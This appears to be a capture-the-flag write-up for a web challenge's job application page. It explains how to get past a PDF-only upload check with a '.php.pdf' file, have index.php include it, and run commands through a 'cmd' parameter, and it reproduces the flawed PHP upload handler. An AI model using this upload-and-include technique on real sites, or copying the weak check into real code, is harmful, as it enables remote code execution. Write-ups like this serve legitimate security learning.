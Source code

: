 
after navigating through tabs figure out the system looks like :
```
/
├── index.php
├── home
├── about
├── jobs
├── data 'directory'
```
and any file passed to index.php? will be printed out on it . 

upload page and is looks like it checks if it ends with .pdf file 
1-  make small php file 

![image](https://user-images.githubusercontent.com/67979878/129133365-da552e3e-0190-453d-9818-3e9b93785c7a.png)

2- change extension to .php.pdf 

3-upload it successfully 

4-it will redirect you to  :

`http://18.192.3.151/join-team/index.php/data/test.php.pdf`

5- execute it by :

we pass the pdf file as parameter so it will get executed into the index.php file 

`http://18.192.3.151/join-team/index.php?data/test.php.pdf`


you can upload a shell or just read the index.php file 

in my case:

`http://18.192.3.151/join-team/?data/test.php.pdf&cmd=cat index.php`

now we can read flag at page source :)


code after clearing flag ;) , to understand how it checks file upload 
```
<?php 
if($_FILES){

  $cv = $_FILES['cv'];
  if($cv['type'] != 'application/pdf'){
    echo 'Only PDF Document Allowed';
    exit;
  }
  
  //check extention
  $ext = pathinfo($cv['name'], PATHINFO_EXTENSION);
  if($ext != 'pdf'){
    echo 'Only pdf Extention Are Allowed';
    exit;
  }
  
  move_uploaded_file($cv['tmp_name'], 'data/'.$cv['name']);

  echo 'Your cv has been uploaded successfully in <a href="data/'.$cv['name'].'">'.$cv['name'].'</a>';
  exit;
}

?>

```
# done
